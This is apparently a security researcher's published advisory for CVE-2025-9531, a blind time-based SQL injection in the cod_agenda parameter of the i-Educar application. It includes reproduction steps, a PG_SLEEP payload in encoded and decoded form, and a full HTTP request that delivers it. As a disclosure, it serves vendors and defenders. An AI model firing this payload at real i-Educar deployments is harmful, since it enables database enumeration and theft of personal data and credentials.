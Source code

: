 ## CVE-2025-9531: SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/arts/sqlInjectionBanner.png)

[![](https://img.shields.io/badge/🌸-CVE--2025--9531-dd53bc)](https://www.cve.org/CVERecord?id=CVE-2025-9531) ![](https://img.shields.io/badge/i--Educar-SQL_Injection-291b3e) [![](https://img.shields.io/badge/💜-Found_by:_Karina_Gante-AA07FF)](https://karinagante.github.io/) ![](https://img.shields.io/badge/%F0%9F%9A%A8-Critical_Severity-ff0000) [![](https://img.shields.io/badge/🧬-Member_of:_CVE--Hunters-6407ab)](https://www.cvehunters.com/)

### 📝 Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/intranet/agenda.php</code> endpoint of the i-Educar application, specifically in the <code>cod_agenda</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### 🔎 Details

➤ Vulnerable Endpoint: `/intranet/agenda.php`

➤ Parameter: `cod_agenda`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>cod_agenda</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### 📚 PoC

#### ➤ Step by Step:

<p align="justify">Access vulnerable endpoint and click on <code>"Novo Compromisso"</code> button to setup a new entry. Type required values in the fields and click on <code>"Salvar"</code>. The page will automatically redirect to another Endpoint like: <code>http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283</code>.</p>

##

#### ➤ Payload:

````html
%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
````

#### ➤ Decoded Payload:

````html
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
````

##

#### ➤ Screenshots:

#### Normal Request:

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi4.png)

#### SQLi Request:

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi5.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

<details>
<summary><h3>📂 Click here to see all Step by Step Screenshots:</h3></summary>
<br>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi1.png)

<br>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi2.png)

<br>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi3.png)

<br>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi4.png)

<br>

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/SQLi5.png)
</details>

---


### ⚠️ Impact

##

<p align="justify">
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Database enumeration: Extracting database schema, tables, and column details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Data manipulation: Adding, modifying, or deleting database records.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Stealing credentials: Attackers can steal a user's credentials.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Denial of Service (DoS): Using time-based queries to impact system availability.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Potential escalation to RCE: If combined with other vulnerabilities and specific database features.
</p>

---

### 🔗 References

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/logos/cve.png) ➤ [https://www.cve.org/CVERecord?id=CVE-2025-9531](https://www.cve.org/CVERecord?id=CVE-2025-9531)

![](https://github.com/KarinaGante/KG-Sec/raw/main/CVEs/images/logos/vulDB.png)➤ [https://vuldb.com/?id.321550](https://vuldb.com/?id.321550)

---

### 🕵🏻‍♀️ Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*
